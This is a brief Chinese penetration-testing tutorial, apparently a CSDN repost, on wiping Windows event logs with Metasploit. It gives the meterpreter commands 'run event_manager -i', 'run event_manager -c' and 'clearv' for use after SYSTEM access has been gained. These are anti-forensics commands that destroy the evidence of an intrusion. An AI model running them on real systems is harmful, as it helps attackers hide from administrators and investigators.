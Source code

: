 ```yaml
---
title: 渗透之——Metasploit清除渗透痕迹
categories: 精通渗透系列
tags: 渗透 Metasploit
---
```

转载请注明出处：https://blog.csdn.net/l1028386804/article/details/86358579

工具：Metasploit

为了实现这个目的，我们需要通过事件管理器模块清除事件日志。

这里，假设经过一系列的渗透测试已经获取了system权限的meterpreter，以下命令在meterpreter命令行下执行:

### 1.查看事件日志

    
    
    run event_manager -i

### 2.删除事件日志

    
    
    run event_manager -c

或者在meterpreter命令行中输入clearv命令清除目标系统的事件日志。

